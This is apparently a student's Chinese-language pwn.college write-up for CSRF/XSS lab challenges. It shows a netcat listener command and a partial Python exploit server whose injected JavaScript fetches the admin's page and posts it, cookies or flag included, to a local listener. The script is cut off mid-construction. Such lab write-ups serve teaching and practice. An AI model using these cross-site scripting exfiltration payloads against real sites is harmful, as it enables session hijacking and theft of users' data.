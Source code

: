 ```py
server.serve_forever()
```

还要开启一个端口，接受fetch：

```
nc -lvp 9876
```

诱导实现同源跳转，然后xss注入实现fetch发送cookie出去。



---



跳转到这个位置，发送cookie也行，我觉得可以直接发送flag。

参考csrf5。

# 27-CSRF-5

不允许发送cookie出去了。

那么我们该怎么办呢？

我的一个想法是直接fetch这个flag文件。

但是flag文件怎么获取到呢？

---

所以不会的时候，好好看题目，好好看源码。

---



真是开了眼了。

很想扇我自己几巴掌。

admin登录后直接就会显示flag。

但是我们这里的victim是不显示登录界面的。

所以我们只能在admin登录之后把他的界面发送过来。

exp：

```py
#!/opt/pwn.college/python

from http.server import SimpleHTTPRequestHandler, HTTPServer
import urllib.parse

class CSRFHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        if self.path == "/":
            self.send_response(200)
            self.send_header("Content-type", "text/html")
            self.end_headers()

            # 构造恶意 JavaScript 脚本
            msg = '<script>fetch("http://challenge.localhost:80/",{method:"GET"}).then(response => response.text()).then(data => {fetch("http://127.0.0.1:9876",{method:"POST",body:data,headers:{"Content-Type":"application/x-www-form-urlencoded"}});});</script>'

            # 对消息进行 URL 编码
            encoded_msg = urllib.parse.quote(msg)

            # 构造恶意 URL
```